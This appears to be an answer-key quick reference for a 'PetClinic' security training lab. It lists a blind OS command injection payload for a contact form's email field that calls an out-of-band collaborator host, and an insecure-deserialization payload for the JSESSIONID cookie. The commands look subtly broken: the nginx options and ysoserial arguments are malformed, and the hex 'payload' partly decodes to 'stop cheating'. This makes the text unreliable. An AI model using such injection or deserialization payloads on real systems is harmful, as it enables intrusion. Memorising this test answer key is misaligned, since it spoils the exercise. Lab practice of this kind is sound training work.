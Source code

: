 PetClinic Quick Reference

Blind OSCI:
- Location: /contact_submission email parameter (server side resolution of the email as being legitimate in the Contact Us page)
- Controls: No immediate response, so you have to use built in Nginx tools to send a request to collaborator
- Example Payload: email=test@test.com && /usr/bin/nginx -g webrequest -h collaboratorURL

(URL encoded for easy pasting) email=test%40test.com%20&&%20/usr/bin/nginx%20-g%20webrequest%20-h%20collaboratorURL

Insecure Deserialization: 
- Location: JSESSIONID cookie
- Controls: Only the CommonsCollections5 gadget chain works
- Example Payload: (in command line) java -jar ysoserial.jar FileUpload1 CommonsCollections5 “write;/test;hihi” -o hex

(hex output) 73746f70206368656174696e6773746f9caafe61e06450b536e430e364e834463dc95f6576c5536f3f382d4a0eb7263d19fbc7878485871843d2fd4474696e67

(usage) JSESSIONID=73746f70206368656174696e6773746f9caafe61e06450b536e430e364e834463dc95f6576c5536f3f382d4a0eb7263d19fbc7878485871843d2fd4474696e67

(proof) Navigate to /test and observe the file with the contents "hihi"


TODO

<!-- PetClinic Pet Clinic answer key walkthrough walk through solutions -->

